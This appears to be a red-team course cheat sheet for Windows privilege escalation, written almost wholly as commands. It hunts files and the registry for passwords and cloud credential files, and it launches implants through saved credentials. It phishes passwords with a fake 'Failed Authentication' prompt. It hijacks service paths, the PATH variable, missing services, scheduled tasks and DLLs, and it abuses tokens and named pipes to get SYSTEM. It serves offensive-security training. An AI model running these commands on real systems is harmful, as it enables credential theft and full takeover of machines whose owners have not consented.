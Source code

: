 # RTO Sektor 7 Cheat Sheet

### Credentials

- Search for password

```
C:\> dir /b /a /s c:\ > c:\rto\c-dirs.txt
C:\> type c:\rto\c-dirs.txt | findstr /i passw
```

- Search for interesting files

```
C:\> type c:\rto\c-dirs.txt | findstr /i ssh
C:\> type c:\rto\c-dirs.txt | findstr /i kdbx
C:\> type c:\rto\c-dirs.txt | findstr /i vnc
```

- Good targets:

  - install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .config, .ini, .xml, .txt, .gpg, .pgp, .p12, .der, .csr, .cer, id_rsa, id_dsa, .ovpn, .rdp, vnc, ftp, ssh, vpn, git, .kdbx, .db
  - unattend.xml
  - Unattended.xml
  - sysprep.inf
  - sysprep.xml
  - VARIABLES.DAT
  - setupinfo
  - setupinfo.bak
  - web.config
  - SiteList.xml
  - .aws\credentials
  - .azure\accessTokens.json
  - .azure\azureProfile.json
  - gcloud\credentials.db
  - gcloud\legacy_credentials
  - gcloud\access_tokens.db
 
- Search for passwords in the Registry

```
C:\> reg query "HKCU\Software\ORL\WinVNC3\Password"
C:\> reg query "HKCU\Software\TightVNC\Server"
C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
C:\> reg query "HKCU\Software\OpenSSH\Agent\Keys"
C:\> reg query HKLM /f password /t REG_SZ /s
C:\> reg query HKCU /f password /t REG_SZ /s
```

- Abuse Credential Manager

```
C:\> cmdkey /list
C:\> runas /savecred /user:admin cmd.exe
C:\> runas /savecred /user:admin c:\rto\lpe\implant\implant.exe
C:\> runas /savecred /user:admin "c:\windows\system32\cmd /c dir /b /a /s c:\users\admin > c:\rto\admin.txt"
```

- Rob Credential Manager

```
C:\> powershell Import-Module c:\rto\lpe\cms.ps1 ; Enum-Creds
```

- Ask user for credentials using a trick prompt

```
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

### Unsecured Objects

- Search for unquoted service paths

```
C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """"
```

- Search for services with weak permissions

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Everyone" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Users" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Authenticated Users" *

C:\> sc query sshd
C:\> sc qc sshd
C:\> sc config sshd binPath= "c:\rto\lpe\implant\implant.exe"
C:\> sc start sshd

C:\> sc stop sshd
C:\> sc config sshd binPath= "c:\Program Files\OpenSSH\sshd.exe"
```

- Search for service Registry keys with weak permissions

```
C:\> c:\RTO\Tools\SI\accesschk.exe -accepteula -kvuqsw hklm\System\CurrentControlSet\services > c:\rto\regs.txt

C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d C:\rto\lpe\implant\implantsrv.exe /f
C:\> sc stop ikeext
C:\> sc start ikeext

C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d "%systemroot%\system32\svchost.exe -k netsvcs -p" /f
```

### Execution Flow Hijacking

- Search for files with weak permissions

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wus "Users" c:\*.* > c:\rto\fld-usr.txt
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wus "Authenticated Users" c:\*.* > c:\rto\fld-authusr.txt
```

- Exploit the PATH variable

```
C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment"
C:\> icacls c:\rto\bin
C:\> copy c:\windows\system32\cmd.exe c:\rto\bin\notepad.exe

C:\> del c:\rto\bin\notepad.exe
```

- Exploit a missing service

```
C:\> c:\RTO\Tools\si\autorunsc64.exe -a s | more
C:\> sc query AdobeUpdate
C:\> sc qc AdobeUpdate
C:\> copy c:\RTO\LPE\implant\implantsrv.exe c:\rto\bin\AdobeUpdate.exe

C:\> sc stop AdobeUpdate
C:\> sc start AdobeUpdate

C:\> del c:\rto\bin\AdobeUpdate.exe
```

- Exploit a missing scheduled task

```
C:\> c:\RTO\Tools\si\autorunsc64.exe -a t | more
C:\> schtasks /query /tn OneDriveChk /xml

C:\> wmic useraccount where sid='S-1-5-21-3461203602-4096304019-2269080069-1003' get name

C:\> copy c:\RTO\LPE\implant\implant.exe C:\RTO\bin\OneDriveChk.exe

C:\> del C:\RTO\bin\OneDriveChk.exe
```

- Hijack a DLL

```
C:\> cd c:\RTO\LPE\DLL-hijack
C:\> compile.bat
C:\> copy c:\RTO\LPE\DLL-hijack\winmm.dll c:\RTO\Tools\putty\

C:\> del c:\RTO\Tools\putty\winmm.dll
```

- Bypass UAC

```
Repo with up-to-date UAC bypass exploits:
https://github.com/hfiref0x/UACME
```

### Getting SYSTEM

- Search for AlwaysInstallElevated MSI setting

```
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

- Create a new service for SYSTEM

```
run from elevated admin cmd/console:
C:\> sc create lol binPath= "c:\RTO\LPE\implant\implant.exe"
C:\> sc start lol
C:\> sc stop lol
C:\> sc delete lol
```

- Abuse tokens

```
C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d c:\RTO\LPE\2SYSTEM\TokenDance\tokendance.exe /f

C:\> sc stop ikeext
C:\> sc start ikeext

C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d "%systemroot%\system32\svchost.exe -k netsvcs -p" /f
```

- Exploit named pipes

```
C:\> cd \RTO\LPE\2SYSTEM\Piper
C:\> compile.bat

run from elevated admin cmd/console:
C:\> cd \RTO\LPE\2SYSTEM\Piper
C:\> piper.exe
```
